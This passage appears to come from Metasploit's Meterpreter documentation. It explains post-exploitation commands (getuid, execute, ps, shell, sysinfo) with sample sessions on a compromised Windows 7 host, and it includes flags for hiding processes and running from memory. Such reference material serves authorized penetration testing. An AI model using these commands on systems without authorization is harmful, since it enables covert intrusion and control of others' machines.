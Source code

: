 The command ```ipconfig``` is an alias for ```ifconfig```.

**getuid command**

The ```getuid``` command shows you the current user that the payload is running as:

```
meterpreter > getuid
Server username: WIN-6NH0Q8CJQVM\user
```

**execute command**

The ```execute``` command allows you to execute a command or file on the remote machine.

The following example will spawn a calculator:

```
meterpreter > execute -f calc.exe
Process 2076 created.
```

To pass an argument, use the ```-a``` flag:

```
meterpreter > execute -f iexplore.exe -a http://metasploit.com
Process 2016 created.
```

There are some options you can see to add more stealth. For example, you can use the ```-H``` flag
to create the process hidden from view. You can also use the ```-m``` flag to execute from memory.

**ps command**

The ```ps``` command lists the running processes on the remote machine.

**shell command**

The ```shell``` command allows you to interact with the remote machine's command prompt. Example:

```
meterpreter > shell
Process 3576 created.
Channel 6 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\user\Desktop>
```

To switch back to Meterpreter, do [CTRL]+[Z] to background the channel.

**sysinfo command**

The ```sysinfo``` command shows you basic information about the remote machine. Example:

```
meterpreter > sysinfo
Computer        : WIN-6NH0Q8CJQVM
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter > 
```
